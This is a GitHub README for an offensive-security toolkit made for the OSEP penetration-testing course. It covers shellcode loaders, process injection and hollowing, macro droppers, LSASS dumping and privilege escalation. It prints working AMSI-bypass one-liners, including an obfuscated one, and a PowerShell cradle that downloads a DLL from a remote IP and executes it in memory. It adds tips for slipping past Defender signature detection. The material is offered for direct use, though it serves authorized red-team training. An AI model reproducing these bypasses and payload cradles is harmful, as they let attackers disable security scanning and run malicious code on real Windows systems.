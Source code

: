 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits and my [Changelog](#changelog) section below. Basically what I did was just rewriting the documentation for the tools, and fix some small things here and there. I kept everything from OSEP-Tools, but only the projects that I deemed useful from OSEP-Code-Snippets.

Below is a small table of contents, some notes, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_PEs | Tools that aid in loading EXEs (PEs) into memory, *from disk*, and executing | `nonDN2J.hta` |
| Loaders_Shellcode | Tools that aid in loading executable shellcode into memory from a remote server and executing | `clhollow`, `clinject`, `D_invoke`, `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, dumping LSASS memory, and RCE leveraging win32 API | `AV_Detection`, `Fileless_Lateral_Movement`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |


## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

## To DOs

- Integrate Injection runner with baseline runner so that injection is performed if x64 word is detected.
- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Detection` scripts
    - Add in Discord scripts
- Patch the `powerhollow.py`, `powerinject.py` AMSI context bypasses to not fail when there isn't Amsi on the box
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
- Compile all projects to single directory for ease of access
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Changelog
- [11/25/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/abf34fb4b0c761091ace1be6368c8bbdfcc3b2bb) - Initial commit; File structure changes, README updates/prettifying, repo merging
- [11/26/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/76fed7aa2cf69408791aceeedb08edcc81898692) - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process.
- [11/26/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/f8758923045b5e6a49f3e97739f73c7cd5512c74) - Updated `WordMacroInject.vbs` to enumerate 32-bit processes and inject into a process other than `WINWORD.exe`.

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
